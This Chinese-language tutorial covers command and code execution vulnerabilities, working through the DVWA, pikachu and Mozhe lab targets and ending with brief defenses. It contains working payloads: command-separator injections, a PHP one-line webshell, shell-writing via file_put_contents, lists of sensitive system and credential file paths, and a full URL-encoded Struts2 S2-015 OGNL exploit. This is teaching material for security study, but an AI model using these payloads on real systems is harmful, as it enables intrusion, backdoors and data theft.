# 1. RCE漏洞

## 1.1. 漏洞原理

RCE漏洞，可以让攻击者直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统。

## 1.2. 漏洞产生条件

1)  调用第三方组件存在的代码执行漏洞。

2)  用户输入的内容作为系统命令的参数拼接到命令中。

3)  对用户的输入过滤不严格。

4)  可控变量或漏洞函数。

## 1.3. 漏洞挖掘

像命令执行和代码执行漏洞，通常需要看网站的情况，若网站只是单单的一个页面那么基本上就不可能存在该漏洞，若网站可能存在一些输入ip、调用接口等那么可能存在，但是通常该漏洞多数需要配合代码审计或者拿到源码，否则很难挖掘到。

## 1.4. 漏洞分类

### 1.4.1. 命令执行

#### 1.4.1.1. 漏洞原理

该漏洞的出现是由于应用系统从设计上需要给用户提供指定的远程命令操作的接口，例如在防火墙的WEB界面中会存在一个故障排除功能，里面就会存在类似Ping操作的界面，若设计者未针对这类功能进行严格的控制检测，则可能导致攻击者提交恶意命令，从而控制后台，控制服务器。

#### 1.4.1.2. 命令执行危险函数

```php
PHP：exec、shell、system、popen等
ASP.NET：System.Diagnostics.Start.Process、System.Diagnostics.Start.ProcessStartInfo等
Java：java.lang.runtime.Runtime.getRuntime、java.lang.runtime.Runtime.exec等
```

#### 1.4.1.3. 漏洞检测

白盒：可以对代码进行审计。

黑盒：这里就可以使用一些漏扫工具、公开的漏洞、手工看功能点及参数值，其中参数值主要需要看是否和相关的漏洞函数有关，若有就可以进行测试，但是可能存在加密的情况，那么还需要进行解密。

### 1.4.2. 代码执行

#### 1.4.2.1. 漏洞原理

这个漏洞和命令执行漏洞差不多，根据设计的需求，需将用户输入的部分代码进行执行，从而导致远程代码执行漏洞的出现。所以，开放的代码执行，需要针对代码进行做严格的控制，避免出现相应的漏洞。

#### 1.4.2.2. 代码执行危险函数

```
PHP: eval、assert、preg_replace()、+/e模式（PHP版本\<5.5.0）
Javascript: eval
Vbscript：Execute、Eval
Python: exec
```

#### 1.4.2.3. 漏洞检测

整体的检测方式和命令执行都是一样的，只是输入的方式不同

白盒：可以对代码进行审计。

黑盒：这里就可以使用一些漏扫工具、公开的漏洞、手工看功能点及参数值，其中参数值主要需要看是否和相关的漏洞函数有关，若有就可以进行测试，但是可能存在加密的情况，那么还需要进行解密。

## 1.5. 命令执行和代码执行区别

这两者的区别主要在于命令执行是调用操作系统命令进行执行，而代码执行是调用服务器网站的代码进行执行。

# 2. 命令执行

## 2.1. 命令执行函数介绍

[借鉴链接](https://www.cnblogs.com/networkroom/p/16395024.html)

### 2.1.1. system函数

该函数会将执行的结果输出并将输出结果的最后一行作为字符串返回，如果执行失败则返回fale。这个函数也是经常被使用到的。

```php
<?php
highlight_file(__FILE__);
system('pwd');
?>
```

### 2.1.2. exec函数

该函数不会输出结果，但是会返回执行结果的最后一行，可以结合output进行结果的输出。

```php
<?php
highlight_file(__FILE__);
exec('pwd',$b);
var_dump($b);
?>
```

### 2.1.3. passthru函数

该函数只调用命令，并将运行的结果原封不动的输出，没有相应的返回值。

```php
<?php
highlight_file(__FILE__);
passthru('ls');
?>
```

### 2.1.4. shell_exec函数

该函数不会输出结果，返回执行结果 使用反引号(\`\`)时调用的就是此函数。

```php
<?php
highlight_file(__FILE__);
var_dump(shell_exec('ls'));
?>
```

### 2.1.5. 总结

当然还有很多的其他函数，可以自学百度搜索。

## 2.2. 命令执行前置基础

在进行命令执行之前首先需要来了解一下基本的Windows命令以及Linux命令，这里我们只做简单的介绍，倘若真的发现该漏洞了，可以直接在网上查找到相关的命令组成进行执行。

### 2.2.1. Windows基础命令

Windows的基础命令准确来说也就是cmd中输入的命令，例如ping、tracert、telnet等。

```
ping        #测试连通性
tracert      #追踪路由
telnet       #远程连接
dir          #列出目录
ipconfig      #查看ip
arp -a       #查看路由表
calc         #打开计算器
regedit      #打开注册表
netstat -ano  #查看服务器端口信息
```

当然还有很多的命令，这里只是举一些列子而已，若不知相关参数，或者使用方式，可以去搜索Windows相关的命令教程。

### 2.2.2. Linux命令

Linux命令我感觉更没什么好说的了，平常操作linux就是使用命令，这部分若不太了解可以去看我的linux命令总结。

```
cd                  #切换目录
ls                   #显示当前目录下的文件
ifconfig              #查看IP地址
cat /etc/passwd       #查看password文件内容
id                  #查看当前用户的id号
cat /etc/group        #查看用户组文件内容
pwd                #显示当前目录
uname -a            #查看当前系统版本
natstat -pantu        #查看当前服务器的端口信息
netstat -nr           #查看网关和路由
```

### 2.2.3. 拼接符

```
|     #只执行|后面的语句
||    #如果前面命令是错的那么就执行后面的语句，否则只执行前面的语句
&     #&前面和后面命令都要执行，无论前面真假
&&    #如果前面为假，后面的命令也不执行，如果前面为真则执行两条命令
;      #前后都执行，无论前面真假，类似&
```


## 2.3. 命令执行案例

这里我们用DVWA靶场来做案例。

### 2.3.1. 乱码解决

这里我们在输入内容的时候会出现乱码的情况，可以把DVWA\dvwa\includes目录下的dvwaPage.inc.php文件中所有的”charset=utf-8”，全部替换修改为”charset=gb2312”即可





### 2.3.2. Low级别

#### 2.3.2.1. 介绍

在low级别中是接受了用户输入的IP，服务器通过操作性的不同情况执行ping命令，并且Low级别中并未对输入的内容进行过滤。

#### 2.3.2.2. 操作

1.  这里我们使用net user查看一下用户，但是这里若直接输入net user，是不会执行命令的。


2.  这里就需要使用到我们之前提到过的拼接符，并且这里并没有进行过滤，那么这里可以使用任意的拼接符，只要保证能够在拼接后正常输出即可。比如这里我使用“\|”拼接符，“\|”只会执行后面的，那么这里可以直接跳过，输入前边的内容，直接输入“\| net user”

    

3.  当然这里也可以使用别的拼接符做案例，比如使用“&&”，之前解释道，“&&”是当前面的命令为假，那么后面也不执行，反之，若前面的命令为真，那么后面就会执行，这里也就是说前面的命令能够正常执行了，那么后面的命令也就能执行，那么这里输入“127.0.0.1 && net user”

    

4.  其它的可以自己试试，这里我就不全部进行执行了。

### 2.3.3. Medium级别

#### 2.3.3.1. 介绍

在Medium级别中是对“&&”与“；”进行了过滤，那么这里可以不使用这两个破解符即可，使用别的，比如我之前提到的“\|”或者“&”。

#### 2.3.3.2. 操作

1.  关于“\|”在Low级别中已经操作过了，那么这里我就只操作“&”，“&”破解符是不管前面的命令执不执行都会执行后面的命令。那么这里是不是也就可以直接输入“& net user”？

    

2.  这里可能发现诶，并没有执行，那么你可以向下翻一翻。可以发现命令是执行了，当然最好还是完整输入。

    

### 2.3.4. High级别

#### 2.3.4.1. 介绍

在High级别中是对“\| ”进行过滤了，这里不知道是作者无意间敲了一个空格还是故意的。

#### 2.3.4.2. 操作

1）那么这里其实就可以直接输入“\|net user”，这里可能看到不是过滤了“\|”怎么还能用？

其实这里主要是在“\|”后面不进行空格直接连起来输入， 就可以绕过了，因为你过滤“\| ”关我“\|”什么事？



## 2.4. 墨者靶场案例

这里我们使用墨者靶场中的命令注入执行分析，做一个全流程的操作。

### 2.4.1. 靶场链接

靶场需要5个墨币，挺贵了，其实题目很简单，但是感觉不值得，不想买的看看也行。

[命令注入执行分析](https://www.mozhe.cn/bug/detail/12)

### 2.4.2. 判断操作系统

这里我们首先需要先判断一下操作系统，由于命令执行是分操作系统的，不同的操作系统的命令也是不同的，所以需要先判断一下操作系统。可以看到这里是Ubuntu系统。



### 2.4.3. 开始测试

这里我们就使用之前我们测试过的方式进行测试，这里我们测试了127.0.0.1 \| pwd 不行，其他的我也不测试了也不行。


### 2.4.4. 抓包

这里发现输入不行，为了好测试，这里直接开始抓包分析，我们抓到包后，尝试在包后面添加，然后发送。这里修改数据包后，成功发送。



### 2.4.5. 失败获取key值

这里在获取key值的时候，发现无法获取，不输出内容，那么这里就要考虑是否存在过滤，那么在linux中存在读取文件有cat、more、less、head、tail等，那么我们这里就一个个尝试



### 2.4.6. 尝试读取key值

这里我们结果尝试后发现，所有的读取命令都不行，那么这里我们就要考虑其他的方式了。



### 2.4.7. 成功获取key值

在linux中还存输入重定向，就是将一个文件作为命令的标准输入，格式：cat \< key_251322682818227.php。


## 2.5. 命令执行总结

案例中设计到的只是使用了“net user”作为演示，当然也可以使用别的一些命令，由于我这个是Windows系统，Linux系统也是一样的。至于安全，还是需要在开发过程中需要对参数进行严格的限制。

# 3. 代码执行

## 3.1. 代码执行函数介绍

### 3.1.1. \${}执行代码

该执行代码会将中间的php代码进行解析。

```php
<?php
${<!-- -->phpinfo()};
?>
```

### 3.1.2. eval函数

该函数会将字符串当作函数进行执行，但是需要传入一个完整的语句，同时必须以；分号结尾，也是最常见的函数。

```php
<?php
eval('echo "hello";');
?>
```

### 3.1.3. assert函数

该函数是判断是否为字符串，如果是则当初代码进行执行，但是在php7.0.29之后的版本不支持动态调用。

```php
低版本
<?php 
assert($_POST['a']);
?>
7.0.29之后
<?php
$a = 'assert';
$a(phpinfo());
?>
```

### 3.1.4. array_map函数

该函数是为数组的每个元素应用回调函数。

```php
<?php
highlight_file(__FILE__);
$a = $_GET['a'];
$b = $_GET['b'];
$array[0] = $b;
$c = array_map($a,$array);
?>
构建的payload
?a=assert&b=phpinfo();
```

### 3.1.5. 总结

这里和命令执行一样，涉及的函数会很多，可以自学百度搜索学习，或者在实际情况中遇到后，在搜索也行。

## 3.2. 代码执行案例

### 3.2.1. pikachu靶场

该案例我们使用pikachu靶场来做演示

#### 3.2.1.1. 开始测试

这里我们可以根据提示可以看到，让我们提交一个我们喜欢的字符串。我们这里随便输入一些，发现返回“你喜欢的字符还挺奇怪的！”



#### 3.2.1.2. 代码分析

从代码中能够看到，是把用户提到的请求内容，直接使用eval函数去执行，也就是说当函数执行的时候若报错了，那么就会直接if语句中的内容。那么当没有报错的时候就会把代码进行执行。



#### 3.2.1.3. 尝试代码执行

这里我们输入一个phpinfo();，提交执行，看看效果，可以看到能够PHP代码被执行了，并且返回了相应的结果到前端。



## 3.3. 代码执行漏洞利用

[借鉴](https://www.ngui.cc/article/show-519518.html?action=onClick)

### 3.3.1. 利用方式

```php
?txt=@eval($_POST['cmd']);   一句话木马
?txt=print(_FILE_);           获取当前绝对路径
?txt=var_dump(file_get_contents('c:\\windows\system32\drivers\etc\hosts'));  读取文件
?txt=var_dump(file_put_contents($_POST[1],$POST[2]));
1=shell.php&2=<?php phpinfo()?>   写shell
```

### 3.3.2. PHP魔术常量

PHP 向它运行的任何脚本提供了大量的预定义常量，但是在这里有很多的常量是有不同的扩展库定义的。

\_\_LINE\_\_ 显示文件中的当前行号

\_\_FILE\_\_ 显示文件的完整路径和文件名。如果用在被包含文件中，则返回被包含的文件名

\_\_DIR\_\_ 显示文件所在的目录。如果用在被包括文件中，则返回被包括的文件所在的目录

当然还有其他的这里我就举几个例子，也可以去看我给的链接，文章大佬进行详细的总结。

#### 3.3.2.1. \_\_LINE\_\_案例

获取当前代码所在行数。



#### 3.3.2.2. \_\_FILE\_\_案例

获得当前文件的完整路径。


#### 3.3.2.3. \_\_DIR\_\_案例

获得当前文件所在的目录。



### 3.3.3. 读取文件

利用代码执行漏洞读取一些操作系统上的敏感文件，从而获取重要的信息。

#### 3.3.3.1. 读取文件前置了解

```
1）Windows
C:\boot.ini                                //查看系统版本
C:\windows\system32\inetsrv\MetaBase.xml    //IIS配置文件
C:\windows\repair\sam                      //windows初次安装的密码
C:\program Files\mysql\my.ini                //Mysql配置信息
2）Linux
/etc/passwd                                 //linux用户信息
/usr/local/app/apache2/conf/httpd.conf          //apache2配置文件
/usr/local/app/php5/lib/php.ini                 //php配置文件
/etc/httpd/conf/httpd.conf                     //apache配置文件
/etc/my.cnf                                  //Mysql配置文件
```

#### 3.3.3.2. 读取hosts文件案例

这里读取hosts文件，读取其他文件都是一样的。


### 3.3.4. 一句话木马

利用代码执行漏洞可以配合一句话木马，然后使用工具进行连接一句话木马，从而实现获取敏感数据。

#### 3.3.4.1. 代码准备

这里就不使用pikachu靶场了，这里我们自己编写一个代码。

```
<?php
if(isset($_GET['a'])){
	eval($_GET['a']);
}
else{
	echo "please input a";
}
?>
```

#### 3.3.4.2. 访问页面

这里我们访问我们刚刚编写的页面。



#### 3.3.4.3. 添加一句话木马

这里我们在url后添加?a=@eval(\$\_POST\['cmd'\]),然后访问。



#### 3.3.4.4. 连接一句话木马

这里我们使用蚁剑进行连接测试，然后连接目标主机。



#### 3.3.4.5. 访问目标主机

可以看到这里我们已经能连接上目标主机。



### 3.3.5. 写Shell

利用远程代码执行漏洞执行写文件的操作，使其生成后门木马。

#### 3.3.5.1. 访问页面

这里我们依旧使用之前的准备的代码。



#### 3.3.5.2. 拼接代码

在URL后面添加?a=var_dump(file_put_contents(\$\_POST\[1\],\$\_POST\[2\]));然后使用Post发送1=info.php&2=\<?php phpinfo();?\>。



#### 3.3.5.3. 访问info.php

这个新生成的页面是在当前目录下，也就是说你访问的是根目录，那么文件就在根目录下，那么这里可以看到我们已经成功生成了，那么如果我们生成的是一个一句话木马呢？



### 3.3.6. 墨者靶场

#### 3.3.6.1. 靶场链接

靶场链接：https://www.mozhe.cn/bug/detail/253



#### 3.3.6.2. 测试靶场

这里测试可以使用工具进行测试，工具下载链接：struts2漏洞检测工具：https://pan.baidu.com/s/13yIAHLDY1sZliQI6Wg1ZXA?pwd=t95s 提取码：t95s

通过工具的检测我们可以看到是存在相应的漏洞的。



#### 3.3.6.3. 工具利用

这里我们可以去网上上exp，也可以使用工具直接利用。这里我们就使用工具进行利用，这里我们通过前期的检测，我们检测出存在远程执行漏洞，那么我们可以在漏洞编号上选择相应的编号，然后在命令执行位置，输入想要执行的命令。

可以看到成功执行，后续文件不在测试怎么看key值。



#### 3.3.6.4. 寻找exp

这里说一下exp:意思就是利用代码，而poc:意思就是验证代码

像这个漏洞可以在网上直接找相关的exp进行操作。

例如这里写入exp的方式利用S2-015漏洞。

```
${#context[‘xwork.MethodAccessor.denyMethodExecution’]=false,#m=#_memberAccess.getClass().getDeclaredField(‘allowStaticMethodAccess’),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(‘ls’).getInputStream()),#q}.action
```

当然这里不能直接输入这样的命令，需要对其进行url编码。

```
/%24%7B%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%2C%23m%3D%23_memberAccess.getClass%28%29.getDeclaredField%28%27allowStaticMethodAccess%27%29%2C%23m.setAccessible%28true%29%2C%23m.set%28%23_memberAccess%2Ctrue%29%2C%23q%3D@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27ls%27%29.getInputStream%28%29%29%2C%23q%7D.action
```



#### 3.3.6.5. 获取key值

由于使用工具很容易就获取到了key值，这里我们使用exp进行获取。

```
/${#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('cat key.txt').getInputStream()),#q}.action
```

url编号后的exp

```
/%24%7B%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%2C%23m%3D%23_memberAccess.getClass%28%29.getDeclaredField%28%27allowStaticMethodAccess%27%29%2C%23m.setAccessible%28true%29%2C%23m.set%28%23_memberAccess%2Ctrue%29%2C%23q%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%27cat%20key.txt%27%29.getInputStream%28%29%29%2C%23q%7D.action
```


# 4. 防御

其实两者的防御都是一样的。需要对敏感函数禁用，就是之前提到的一些函数已经未提到的，同时对相关的变量进行过滤，再其次就是之上使用WAF的产品进行防护。

# 5. 其他

这里的WAF绕过我并没有提，可以自行百度搜索，因为像这类漏洞，多数需要白盒查看源代码进行代码审计然后才能发现漏洞，当然也不是说黑盒不行，主要要考虑到，对方参数有没有修改，设置了哪些过滤等等，盲猜比较麻烦。
